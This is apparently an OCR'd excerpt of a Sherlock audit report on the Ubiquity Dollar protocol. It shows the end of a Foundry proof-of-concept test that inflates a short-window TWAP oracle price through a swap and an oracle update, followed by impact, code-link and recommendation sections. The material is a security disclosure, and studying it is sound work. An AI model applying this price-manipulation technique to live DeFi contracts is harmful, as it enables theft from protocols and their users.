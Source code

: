 ```solidity
        // New block is created
        vm.warp(block.timestamp + 13);
        
        // Now the first swap on the pool in the new block will update the priceCumulative variables
        // to the inflated priceCumulatives - this call can be done by the attacker him self
        // swap 1 token
        dollarToken.approve(address(metaPool), 1 ether);
        metaPool.exchange(0, 1, 1 ether, 0);

        // Update the price - price is now inflated
        twapOracleDollar3PoolFacet.update();

        amount0Out = twapOracleDollar3PoolFacet.consult(address(dollarToken));
        amount1Out = twapOracleDollar3PoolFacet.consult(address(threeCRVToken));
        console.log("PRICE AFTER ATTACK");
        console.log("Dollar Token Price  :", amount0Out);
        console.log("3CRV LP Token Price :", amount1Out);
    }
}
```
## Impact
TWAP oracle can be easily manipulated by an attacker due to the short sample time. This can cause a number of problems as the attacks can manipulate the price as he wants. He can mint or redeem dollars freely as he can bring the contract into that state. Liquidations can happen if they rely on the TWAP oracle. 
## Code Snippet
https://github.com/sherlock-audit/2023-12-ubiquity/blob/main/ubiquity-dollar/packages/contracts/src/dollar/libraries/LibTWAPOracle.sol#L74
## Tool used
Manual Review
## Recommendation
Increase the TWAP sample time to a larger value instead of 1 block. Increase it to 1 hour or more. The functions relying on the TWAP price should be disabled during the first period as the TWAP has no data yet.